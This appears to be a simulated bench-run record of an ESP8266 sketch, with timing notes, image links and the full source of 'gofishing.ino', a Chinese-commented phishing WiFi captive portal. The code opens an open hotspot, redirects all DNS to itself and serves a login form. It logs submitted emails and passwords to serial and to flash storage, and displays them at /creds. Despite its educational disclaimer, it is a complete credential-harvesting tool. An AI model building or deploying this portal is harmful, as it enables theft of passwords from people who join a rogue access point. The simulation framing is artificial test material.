
Bench run of a sketch on a simulated ESP8266 (NodeMCU). Parts: output pins drawn as LEDs (lit = HIGH, except the on-board LED, lit = LOW). The test bench sets the inputs (shaded band). Storage starts empty; what the sketch prints to the serial monitor is not drawn.

Above: at 1.2 s.
1.3 s: HTTP request GET /post received
At 1.7 s:

Timing chart, 0 to 4.3 s (numbered marks = the images above; inputs shaded):


The sketch:

gofishing.ino
```cpp
/***********************************************************
  项目名：钓鱼WIFI
  作者：BlackBox114
  当前版本描述：
  开发板：NodeMcu(ESP-12E)
  设备连接上热点后会收到强制弹出的WIFI登陆页面
  填写信息后会串口发送出去，并且返回到另一个页面
  连接热点后访问10.10.10.1也可直接访问钓鱼页面，或者访问10.10.10.1/creds获取钓鱼信息
  所有历史记录会保存在history.txt中
  修改人：BlackBox114
  修改时间：2019.4.9
  修改内容：增加直接从网页获得钓鱼信息的页面
  修改时间：2019.4.10
  修改内容：强制中文避免出现乱码
  修改时间：2019.4.17
  修改内容：新增文件储存功能，历史记录会保存在history.txt中
  接线：无
  /***********************************************************/
#include <ESP8266WiFi.h>
#include <DNSServer.h>
#include <ESP8266WebServer.h>
#include <FS.h>

// User configuration
#define SSID_NAME "姜太公"
#define SUBTITLE "这是个钓鱼wifi"
#define TITLE "愿者上钩："
#define BODY "这个网页会诱骗你输入你的账号和密码"
#define DATA "历史记录"
#define INFO "免责声明"
#define POST_TITLE "捕获中..."
#define POST_BODY "你刚刚输入的账户和密码已经被捕获，访问10.10.10.1/creds或直接点击鱼仓库链接可以看到捕获结果</br>愿者上钩"
#define LAWC "  该项目仅用于个人学习和研究使用。<br>ESP8266及其SDK都不是为此目的而设计或构建的。<br>可能会有 Bug 出现！请仅在自己的网络和设备上使用！<br>"
#define LAWE "  This project is a proof of concept for testing and educational purposes.<br>Neither the ESP8266, nor its SDK was meant or build for such purposes. <br>Bugs can occur!Use it only against your own networks and devices!<br>"
#define PASS_TITLE "鱼仓库"
#define CLEAR_TITLE "清除完成"

// Init System Settings
const byte HTTP_CODE = 200;
const byte DNS_PORT = 53;
const byte TICK_TIMER = 1000;
IPAddress APIP(10, 10, 10, 1);

String Credentials = "";
String FISH  = "储存的密码和账号";
unsigned long bootTime = 0, lastActivity = 0, lastTick = 0, tickCtr = 0;
DNSServer dnsServer; ESP8266WebServer webServer(80);

String input(String argName) {
  String a = webServer.arg(argName);
  a.replace("<", "&lt;"); a.replace(">", "&gt;");
  a.substring(0, 200); return a;
}

String footer() {
  return
    "</div><div class=q><a>&#169; BlackBox版权所有</a></div>";

}

String header(String t) {
  String a = String(SSID_NAME);
  String CSS = "article { background: #f2f2f2; padding: 1.3em; }"//不使用外联css，以后尝试将html和css还有图片放到NodeMCU闪存文件系统内
               "body { color: #333; font-family: Century Gothic, sans-serif; font-size: 18px; line-height: 24px; margin: 0; padding: 0; }"
               "div { padding: 0.5em; }"
               "h1 { margin: 0.5em 0 0 0; padding: 0.5em; }"
               "input { width: 100%; padding: 9px 10px; margin: 8px 0; box-sizing: border-box; border-radius: 0; border: 1px solid #555555; }"
               "label { color: #333; display: block; font-style: italic; font-weight: bold; }"
               "nav { background: #444444; color: #fff; display: block; font-size: 1.3em; padding: 1em; }"
               "nav b { display: block; font-size: 1.5em; margin-bottom: 0.5em; } "
               "textarea { width: 100%; }";
  String h = "<!DOCTYPE html><html>"
             "<meta http-equiv=\"Content-Type\" content=\"text/html; charset=utf-8\" />"//强制中文
             "<head><title>" + a + " :: " + t + "</title>"
             "<meta name=viewport content=\"width=device-width,initial-scale=1\">"
             "<style>" + CSS + "</style></head>"
             "<body><nav><b>" + a + "</b> " + SUBTITLE + "</nav><div><h1>" + t + "</h1></div><div>";
  return h;
}

String creds() {
  return header(PASS_TITLE) + "<ol>" + Credentials + "</ol><br><center><p><a style=\"color:black\" href=/>回到钓鱼页面</a></p><p><a style=\"color:black\" href=/clear>清除捕获的信息</a></p><p><a style=\"color:black\" href=/data>前往数据页面</a></p><p><a style=\"color:black\" href=/info>前往声明页面</a></p></center>" + footer();
}

String index() {
  return header(TITLE) + "<div>" + BODY + "</ol></div><div><form action=/post method=post>" +
         "<b>Email:</b> <center><input type=text autocomplete=email name=email></input></center>" +
         "<b>Password:</b> <center><input type=password name=password></input><input type=submit value=确认></form></center>" +
         "</ol><br><p><a style=\"color:black\" href=/info>免责声明</a></p>" + footer();
}

String posted() {
  String email = input("email");
  String password = input("password");
  Credentials = "<li>账号: <b>" + email + "</b></br>密码: <b>" + password + "</b></li>" + Credentials;

  history(email, password);         //把捕获到的消息用串口发出，并存进历史记录
  Serial.printf("连接此接入点上的无线终端数目 = %d\n", WiFi.softAPgetStationNum());
  Serial.println("");
  return header(POST_TITLE) + POST_BODY + "</ol><br><center><p><a style=\"color:black\" href=/creds>查看鱼仓库</a></p></center>" + footer();
}

String clear() {
  String email = "<p></p>";
  String password = "<p></p>";
  Credentials = "<p></p>";
  return header(CLEAR_TITLE) + "<div><p>捕获的信息已经清除</div></p><center><a style=\"color:black\" href=/>回到钓鱼页面</a></center>" + footer();
}

String data() {
  File myFile;
  myFile = SPIFFS.open("/history.txt", "r");//打开历史记录文件，"r"代表读取内容
  FISH = myFile.readString();
  myFile.close();
  return header(DATA) + "<div>"  + FISH + "</ol></div><div><form action=/creds method=creds>" + "<input type=submit value=返回鱼仓库></form></center>" + footer();
}

String info() {
  return header(INFO) + "<div>"  + LAWC + LAWE + "</ol></div><div><form action=/ method=/>" + "<input type=submit value=我已阅读并明白上述注意事项></form></center>" + footer();
}

void history(String email, String password) {
  Serial.println("愿者上钩");
  Serial.println(" ");
  Serial.println("捕获的邮箱：");
  Serial.println(email);
  Serial.println("捕获的密码：");
  Serial.println(password);
  Serial.println(" ");
  File myFile;
  //打开历史记录文件，"a"代表添加内容
  myFile = SPIFFS.open("/history.txt", "a");
  if (myFile) {
    Serial.println("正在将捕获数据存入历史记录...");
    myFile.println("捕获的邮箱：");
    myFile.println(email);
    myFile.println("捕获的密码：");
    myFile.println(password);
    Serial.println(" ");
    myFile.close();
    Serial.println("储存完成！");
  } else {
    Serial.println("无法将数据写入历史记录");
  }
  if (!SPIFFS.begin()) {
    Serial.println("文件闪存系统初始化失败，请检查烧录设置");
  }
  else {

    File myFile;
    Serial.println("正在读取更新后的历史记录");
    Serial.println(" = = = = = = = = = = = = = = = = =");
    myFile = SPIFFS.open("/history.txt", "r");//打开历史记录文件，"r"代表读取内容
    if (myFile) {
      Serial.println(myFile.readString());
      myFile.close();
      Serial.println(" = = = = = = = = = = = = = = = = =");
      Serial.println("更新后的历史记录读取完毕");
    } else {
      Serial.println("历史记录读取失败");
    }
  }
}

void BLINK() { // 有人上钩就闪两下

  digitalWrite(BUILTIN_LED, LOW);
  delay(500);
  digitalWrite(BUILTIN_LED, HIGH);
  delay(500);
}

void WELCOME() {
  Serial.println(" ");
  Serial.println(" = = = = = = = = = = = = = = = = = = = = = = = = = = = = = = = = = = =");
  Serial.println("||     ____     __                    __      ____                   ||");
  Serial.println("||    / __ )   / /  ____ _   _____   / /__   / __ )   ____     _  __ ||");
  Serial.println("||   / __  |  / /  / __ `/  / ___/  / //_/  / __  |  / __ \\   | |/_/ ||");
  Serial.println("||  / /_/ /  / /  / /_/ /  / /__   / ,<    / /_/ /  / /_/ /  _>  <   ||");
  Serial.println("|| /_____/  /_/   \\__,_/   \\___/  /_/|_|  /_____/   \\____/  /_/|_|   ||");
  Serial.println(" = = = = = = = = = = = = = = = = = = = = = = = = = = = = = = = = = = =");
  Serial.println("自动弹窗钓鱼热点启动");
  Serial.println("有人在页面内输入邮箱和密码后串口会返回捕获的邮箱和密码");
}

void setup() {
  Serial.begin(115200);
  Serial.println(" ");
  bootTime = lastActivity = millis();
  WiFi.mode(WIFI_AP);
  WiFi.softAPConfig(APIP, APIP, IPAddress(255, 255, 255, 0));
  WiFi.softAP(SSID_NAME);
  dnsServer.start(DNS_PORT, "*", APIP); // DNS spoofing (Only HTTP)
  webServer.on("/info", []() {
    webServer.send(HTTP_CODE, "text/html", info());
  });
  webServer.on("/post", []() {
    webServer.send(HTTP_CODE, "text/html", posted());
    BLINK();
  });
  webServer.on("/creds", []() {
    webServer.send(HTTP_CODE, "text/html", creds());
  });
  webServer.on("/clear", []() {
    webServer.send(HTTP_CODE, "text/html", clear());
  });

  webServer.on("/data", []() {
    webServer.send(HTTP_CODE, "text/html", data());
  });

  webServer.onNotFound([]() {
    lastActivity = millis();
    webServer.send(HTTP_CODE, "text/html", index());
  });
  webServer.begin();
  pinMode(BUILTIN_LED, OUTPUT);
  digitalWrite(BUILTIN_LED, HIGH);
  WELCOME();
  if (!SPIFFS.begin()) {
    Serial.println("文件闪存系统初始化失败，请检查烧录设置");
  }
  else {
    Serial.println("文件系统已经启动，捕获的历史记录储存在NodeMCU 闪存文件系统中，可以显示在数据页面");
    File myFile;
    Serial.println("正在读取历史记录");
    Serial.println(" = = = = = = = = = = = = = = = = =");
    //打开文件 不存在就创建一个 可读可写
    myFile = SPIFFS.open("/history.txt", "r");
    if (myFile) {
      //读取文件内容
      Serial.println(myFile.readString());
      myFile.close();
      Serial.println(" = = = = = = = = = = = = = = = = =");
      Serial.println("读取完毕");
    } else {
      Serial.println("历史记录读取失败");
    }

  }
  Serial.println("连接热点后访问10.10.10.1也可直接访问钓鱼页面，或者访问10.10.10.1/creds获取钓鱼信息");
  Serial.println("正在等待客户端连接...");

}

void loop() {
  if ((millis() - lastTick) > TICK_TIMER) {
    lastTick = millis();
  }
  dnsServer.processNextRequest();
  webServer.handleClient();
}
```

Measured:
- after the input at 1.3 s, GPIO 2: HIGH → LOW after 0.05 s, → HIGH 0.50 s later
